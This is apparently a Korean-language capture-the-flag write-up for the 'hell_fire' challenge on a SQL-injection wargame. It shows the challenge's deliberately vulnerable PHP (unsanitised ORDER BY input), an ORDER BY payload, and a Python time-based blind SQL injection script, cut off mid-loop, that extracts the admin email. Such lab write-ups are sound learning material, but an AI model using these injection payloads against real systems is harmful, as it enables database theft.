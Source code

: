 ## Hell_fire
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```
### exploit
```sql
select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}
-> select id,email,score from prob_hell_fire where 1 order by id DESC
payload = id DESC
```
이러한 값을 입력하여 DB에 저장된 값을 볼 수 있다.<br>
![hell-fire-list](/assets/img/post/hell_fire.png)<br>
DB에 저장된 값을 볼 수 있지만 admin의 email값은 ***로 마스킹 되어있어 볼 수 없었다.<br>
DB 쿼리가 성공했을 때의 반응이 없기 때문에 Timebased를 사용해서 email을 알아낼 것이다.
Darkeye 문제에서 사용한 code에서 union구문 대신 sleep구문을 사용할 것이다.<br>

```python
import requests
import time

url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"

cookie = {'PHPSESSID' : 'ovbfdu14h0vaeamskdlr10nttu'}

for len in range(100):
  param = {'order': f"if(id='admin' and length(email)={len},sleep(1), 1)#"}
  start = time.time()
  res = requests.get(url=url, params=param, cookies=cookie)
  end = time.time()
  if end - start > 0.5:
    print(len)
    break

length = 28
email = ""
for len in range(1, length+1):
  for char in range(ord('0'), ord('z')):
    param = {'order': f"if(id='admin' and ord(substr(email,{str(len)},1))={str(char)}, sleep(1), 1)#"}
```